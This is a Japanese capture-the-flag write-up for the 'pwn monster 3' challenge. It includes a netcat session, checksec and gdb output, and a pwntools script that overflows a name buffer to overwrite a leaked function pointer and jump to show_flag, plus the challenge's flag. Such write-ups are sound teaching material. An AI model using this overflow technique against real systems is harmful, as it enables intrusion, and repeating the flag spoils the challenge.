 # pwn monster 3:Pwn:300pts
対策してもバグで勝つ人が多いので、pwn monster 3では勝ってもフラグを貰えないようにしました。  
`nc 35.200.120.35 9003`  
[pwn_monster_3.zip](pwn_monster_3.zip)  

# Solution
[pwn monster 1](../pwn_monster_1)や[pwn monster 2](../pwn_monster_2)の続きのようだ。  
勝ってもフラグがもらえない鬼仕様になっている。  
とりあえずncしてみる。  
```bash
$ nc 35.200.120.35 9003
 ____                 __  __                 _
|  _ \__      ___ __ |  \/  | ___  _ __  ___| |_ ___ _ __
| |_) \ \ /\ / / '_ \| |\/| |/ _ \| '_ \/ __| __/ _ \ '__|
|  __/ \ V  V /| | | | |  | | (_) | | | \__ \ ||  __/ |
|_|     \_/\_/ |_| |_|_|  |_|\___/|_| |_|___/\__\___|_|
                        Press Any Key

Welcome to Pwn Monster World!
I'll give your first monster!
Let's give your monster a name!
+--------+--------------------+----------------------+
|name    | 0x0000000000000000 |                      |
|        | 0x0000000000000000 |                      |
|HP      | 0x0000000000000064 |                  100 |
|ATK     | 0x000000000000000a |                   10 |
|cry()   | 0x000055e36531434e |                      |
+--------+--------------------+----------------------+
Input name: Satoki
+--------+--------------------+----------------------+
|name    | 0x0000696b6f746153 |               Satoki |
|        | 0x0000000000000000 |                      |
|HP      | 0x0000000000000064 |                  100 |
|ATK     | 0x000000000000000a |                   10 |
|cry()   | 0x000055e36531434e |                      |
+--------+--------------------+----------------------+
OK, Nice name.
Let's battle with Rival! If you win, give you FLAG.
[You] Satoki HP: 100
[Rival] pwnchu HP: 9999
Your Turn.
Satoki: GRRRR....
Rival monster took 10 damage!
[You] Satoki HP: 100
[Rival] pwnchu HP: 9989
Rival Turn.
pwnchu: pwnchu!
Your monster took 9999 damage!
[You] Satoki HP: -9899
[Rival] pwnchu HP: 9989
Lose...

```
`cry()`という謎のアドレスが表示されている。  
そして`Satoki: GRRRR....`という出力も見える(GRRRR....ってｗ)。  
BOFでリターンアドレスを書き換えろということのようだ。  
配布されたソースを見ると`show_flag()`なる関数があるのでそこへ飛ばす。  
```bash
$ checksec --file=vuln
[*] '/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
$ gdb vuln
~~~
gdb-peda$ disass show_flag
Dump of assembler code for function show_flag:
   0x0000000000001286 <+0>:     endbr64
   0x000000000000128a <+4>:     push   rbp
   0x000000000000128b <+5>:     mov    rbp,rsp
~~~
```
cryのアドレスがわかっているので、下二桁を286に変えればよい。  
以下のgrrrr.pyで行う。  
```python:grrrr.py
import re
from pwn import *

io = remote("35.200.120.35", 9003)

_ = io.recv(512)
address = io.recv(512).decode().split("\n")[9][13:26] + "286"
print(address)

payload = b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
payload += bytes.fromhex(address)[::-1] + b"\n"
io.send(payload)

io.interactive()
```
実行する。  
```bash
$ python grrrr.py
[+] Opening connection to 35.200.120.35 on port 9003: Done
0000556f25b3d286
[*] Switching to interactive mode
+--------+--------------------+----------------------+
|name    | 0x4141414141414141 |             AAAAAAAA |
|        | 0x4141414141414141 |             AAAAAAAA |
|HP      | 0x4141414141414141 |  4702111234474983745 |
|ATK     | 0x4141414141414141 |  4702111234474983745 |
|cry()   | 0x0000556f25b3d286 |                      |
+--------+--------------------+----------------------+
OK, Nice name.
Let's battle with Rival! If you win, give you FLAG.
[You] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86ҳ%oU HP: 4702111234474983745
[Rival] pwnchu HP: 9999
Your Turn.
nitic_ctf{rewrite_function_pointer_is_fun}

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86ҳ%oU: (null)
Rival monster took 4702111234474983745 damage!
[You] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86ҳ%oU HP: 4702111234474983745
[Rival] pwnchu HP: -4702111234474973746
Win!
Rival: I don't want to give you FLAG! bye~~
[*] Got EOF while reading in interactive
$
[*] Interrupted
```
flagが表示された。  

## nitic_ctf{rewrite_function_pointer_is_fun}